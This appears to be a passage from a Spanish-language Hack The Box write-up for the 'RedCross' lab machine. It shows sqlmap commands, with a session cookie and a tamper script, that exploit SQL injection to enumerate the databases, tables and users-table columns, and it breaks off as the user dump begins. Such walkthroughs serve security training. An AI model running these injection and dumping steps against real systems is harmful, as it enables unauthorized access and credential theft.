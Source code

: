 Como pudimos observar, es posible hacer una sqli dentro del servidor, por lo que omitiré la información de estatus centrándome en las salidas de sqlmap:

```
xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent --dbs

[23:19:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[23:19:17] [INFO] fetching database names
[23:19:21] [INFO] used SQL query returns 2 entries
[23:19:21] [INFO] retrieved: 'information_schema'
[23:19:22] [INFO] retrieved: 'redcross'
available databases [2]:
[*] information_schema
[*] redcross


xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross --tables

Database: redcross
[3 tables]
+----------+
| messages |
| requests |
| users    |
+----------+


xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T users --columns

Database: redcross
Table: users
[5 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| mail     | varchar(30) |
| password | varchar(64) |
| role     | int(11)     |
| username | varchar(20) |
+----------+-------------+

xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T users -C id,mail,password,role,username --dump

Database: redcross
Table: users
[5 entries]
+----+------------------------------+--------------------------------------------------------------+------+----------+
| id | mail                         | password                                                     | role | username |
+----+------------------------------+--------------------------------------------------------------+------+----------+
```